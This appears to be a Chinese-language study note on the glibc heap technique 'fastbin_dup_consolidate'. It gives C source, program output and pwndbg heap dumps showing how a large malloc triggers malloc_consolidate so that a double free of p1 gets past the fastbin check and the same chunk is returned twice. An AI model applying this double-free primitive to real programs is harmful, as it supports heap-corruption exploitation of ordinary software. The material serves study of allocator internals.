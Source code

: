 # fastbin_dup_consolidate

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```
**result**

```c
Allocated two fastbins: p1=0x2439010 p2=0x2439060
Now free p1!
Allocated large bin to trigger malloc_consolidate(): p3=0x24390b0
In malloc_consolidate(), p1 is moved to the unsorted bin.
Trigger the double free vulnerability!
We can pass the check in malloc() since p1 is not fast top.
Now p1 is in unsorted bin and fast bin. So we'will get it twice: 0x2439010 0x2439010
```

**analysis**

这个实验展示了另一种绕过double free检查机制的方法。

首先申请了两个fast bin，p1和p2，然后free掉p1。如果我们再free一次p1程序肯定会出错。我们先申请一个large bin，p3。

这里根据malloc的分配规则，此时fast bin中可能合并的chunk被放入了unsorted bin进行分配。所以现在p1已经被放入到了small bin中，而fast bin已经没有了chunk，所以再次free(p1)也没有触发错误。最后我们再取出两个与p1大小相同的chunk，一个是从fast bin中，一个是从small bin中。而且这两个chunk是完全相同的。

**gdb**

申请两个fast bin后堆布局

```c
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x51

Allocated chunk | PREV_INUSE
Addr: 0x602050
Size: 0x51

Top chunk | PREV_INUSE
Addr: 0x6020a0
Size: 0x20f61
```

free(p1)

```c
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x602000 ◂— 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

malloc(0x400)

```c
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x50: 0x602000 —▸ 0x7ffff7dd1bb8 (main_arena+152) ◂— 0x602000
largebins
empty
pwndbg> heap
Free chunk (smallbins) | PREV_INUSE
Addr: 0x602000
Size: 0x51
fd: 0x7ffff7dd1bb8
bk: 0x7ffff7dd1bb8

Allocated chunk
Addr: 0x602050
Size: 0x50

Allocated chunk | PREV_INUSE
Addr: 0x6020a0
Size: 0x411

Top chunk | PREV_INUSE
Addr: 0x6024b0
Size: 0x20b51
```

申请large bin时，经过大循环，fast bin中的chunk被放到指定的bins中。fast bin为空，以此绕过fast bin的double free检查。